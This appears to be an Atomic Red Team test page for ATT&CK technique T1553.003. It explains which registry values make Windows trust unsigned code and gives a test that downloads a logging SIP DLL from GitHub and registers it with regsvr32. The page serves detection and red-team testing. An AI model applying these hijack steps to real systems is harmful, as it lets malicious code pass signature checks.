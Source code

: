 ```yaml
---
tags: [T1553_003, atomic_test]
filename: "[[T1553.003|T1553.003 - Subvert Trust Controls: SIP and Trust Provider Hijacking]]"
---
```


# T1553.003 - Subvert Trust Controls: SIP and Trust Provider Hijacking
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1553/003)
<blockquote>Adversaries may tamper with SIP and trust provider components to mislead the operating system and application control tools when conducting signature validation checks. In user mode, Windows Authenticode (Citation: Microsoft Authenticode) digital signatures are used to verify a file's origin and integrity, variables that may be used to establish trust in signed code (ex: a driver with a valid Microsoft signature may be handled as safe). The signature validation process is handled via the WinVerifyTrust application programming interface (API) function,  (Citation: Microsoft WinVerifyTrust) which accepts an inquiry and coordinates with the appropriate trust provider, which is responsible for validating parameters of a signature. (Citation: SpectorOps Subverting Trust Sept 2017)

Because of the varying executable file types and corresponding signature formats, Microsoft created software components called Subject Interface Packages (SIPs) (Citation: EduardosBlog SIPs July 2008) to provide a layer of abstraction between API functions and files. SIPs are responsible for enabling API functions to create, retrieve, calculate, and verify signatures. Unique SIPs exist for most file formats (Executable, PowerShell, Installer, etc., with catalog signing providing a catch-all  (Citation: Microsoft Catalog Files and Signatures April 2017)) and are identified by globally unique identifiers (GUIDs). (Citation: SpectorOps Subverting Trust Sept 2017)

Similar to [Code Signing](https://attack.mitre.org/techniques/T1553/002), adversaries may abuse this architecture to subvert trust controls and bypass security policies that allow only legitimately signed code to execute on a system. Adversaries may hijack SIP and trust provider components to mislead operating system and application control tools to classify malicious (or any) code as signed by: (Citation: SpectorOps Subverting Trust Sept 2017)

* Modifying the <code>Dll</code> and <code>FuncName</code> Registry values in <code>HKLM\SOFTWARE[\WOW6432Node\]Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllGetSignedDataMsg\{SIP_GUID}</code> that point to the dynamic link library (DLL) providing a SIP’s CryptSIPDllGetSignedDataMsg function, which retrieves an encoded digital certificate from a signed file. By pointing to a maliciously-crafted DLL with an exported function that always returns a known good signature value (ex: a Microsoft signature for Portable Executables) rather than the file’s real signature, an adversary can apply an acceptable signature value to all files using that SIP (Citation: GitHub SIP POC Sept 2017) (although a hash mismatch will likely occur, invalidating the signature, since the hash returned by the function will not match the value computed from the file).
* Modifying the <code>Dll</code> and <code>FuncName</code> Registry values in <code>HKLM\SOFTWARE\[WOW6432Node\]Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{SIP_GUID}</code> that point to the DLL providing a SIP’s CryptSIPDllVerifyIndirectData function, which validates a file’s computed hash against the signed hash value. By pointing to a maliciously-crafted DLL with an exported function that always returns TRUE (indicating that the validation was successful), an adversary can successfully validate any file (with a legitimate signature) using that SIP (Citation: GitHub SIP POC Sept 2017) (with or without hijacking the previously mentioned CryptSIPDllGetSignedDataMsg function). This Registry value could also be redirected to a suitable exported function from an already present DLL, avoiding the requirement to drop and execute a new file on disk.
* Modifying the <code>DLL</code> and <code>Function</code> Registry values in <code>HKLM\SOFTWARE\[WOW6432Node\]Microsoft\Cryptography\Providers\Trust\FinalPolicy\{trust provider GUID}</code> that point to the DLL providing a trust provider’s FinalPolicy function, which is where the decoded and parsed signature is checked and the majority of trust decisions are made. Similar to hijacking SIP’s CryptSIPDllVerifyIndirectData function, this value can be redirected to a suitable exported function from an already present DLL or a maliciously-crafted DLL (though the implementation of a trust provider is complex).
* **Note:** The above hijacks are also possible without modifying the Registry via [DLL Search Order Hijacking](https://attack.mitre.org/techniques/T1574/001).

Hijacking SIP or trust provider components can also enable persistent code execution, since these malicious components may be invoked by any application that performs code signing or signature validation. (Citation: SpectorOps Subverting Trust Sept 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - SIP (Subject Interface Package) Hijacking via Custom DLL](#atomic-test-1---sip-subject-interface-package-hijacking-via-custom-dll)


<br/>

## Atomic Test #1 - SIP (Subject Interface Package) Hijacking via Custom DLL
Registers a DLL that logs signature checks, mimicking SIP hijacking. This test uses a DLL from 
https://github.com/gtworek/PSBits/tree/master/SIP and registers it using regsvr32, thereby causing
the system to utilize it during signature checks, and logging said checks.

**Supported Platforms:** Windows


**auto_generated_guid:** e12f5d8d-574a-4e9d-8a84-c0e8b4a8a675





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_payload | Path to GTSIPProvider.dll | path | PathToAtomicsFolder&#92;T1553.003&#92;bin&#92;GTSIPProvider.dll|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
regsvr32.exe #{dll_payload}
```

#### Cleanup Commands:
```cmd
regsvr32.exe /u #{dll_payload}
```



#### Dependencies:  Run with `powershell`!
##### Description: GTSIPProvider.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/gtworek/PSBits/raw/2aa885c7d09f7f100997bfa5ee0c404084177f24/SIP/GTSIPProvider.dll" -OutFile "#{dll_payload}"
```




<br/>
